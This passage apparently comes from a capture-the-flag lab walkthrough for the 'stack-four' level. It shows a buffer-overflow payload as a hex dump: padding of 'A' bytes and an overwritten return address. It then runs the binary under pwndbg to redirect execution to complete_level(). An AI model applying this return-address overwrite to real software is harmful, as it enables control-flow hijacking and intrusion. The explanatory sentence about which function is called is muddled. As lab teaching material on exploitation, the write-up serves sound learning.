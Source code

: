 We now want to send the output of our `exploit.py` script to a file called `exploit`:

```
python3 exploit.py > exploit
```

Examining exploit:

```
xxd exploit

00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 a951 5555 5555 0000  AAAAAAAA.QUUUU..
```

We see that the file is filled with `A`'s.

## Exploitation

<pre><code>pwndbg stack-four

<strong>pwndbg> b main
</strong>
pwndbg> run &#x3C; exploit

pwndbg> ni

pwndbg> ni

pwndbg> ni

pwndbg> ni

pwndbg> ni
and will be returning to 0x5555555551a9
Congratulations, you've finished mylevel :-) Well done!
[Inferior 1 (process 44758) exited normally]
</code></pre>

From here, you can see that we are calling line 30, `start_level()` since we replaced it with the address of `complete_level()` instead!!! Once we do this, we complete the level!

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>
